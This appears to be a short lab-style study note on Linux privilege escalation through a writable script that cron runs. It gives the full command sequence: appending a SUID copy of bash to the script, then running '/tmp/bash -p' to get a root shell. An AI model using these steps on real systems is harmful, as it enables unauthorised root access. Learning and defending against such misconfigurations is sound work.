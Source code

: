 This happens when we are able to write on the files executed by the `cron`.

In this case we can see:
```bash
cat /etc/crontab
```
- ![[Pasted image 20250117162625.png]]

So we locate the file:
```bash
locate overwrite.sh
```
- ![[Pasted image 20250117162847.png]]


And if we check the permissions over `compress.sh`:
```bash
ls -la /usr/local/bin/overwrite.sh
```
- ![[Pasted image 20250117162717.png]]
- we can notice we have `read` and `write` permission on that file, so we can modify it


<mark style="background: #BBFABBA6;">In that case we just need to write on this file:</mark>
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```


At this point the system will create a `bash` binary on `/tmp`:
- ![[Pasted image 20250117163038.png]]


We run it:
```bash
/tmp/bash -p
```
- ![[Pasted image 20250117163101.png]]


<mark style="background: #BBFABBA6;">We gain a root shell!</mark>
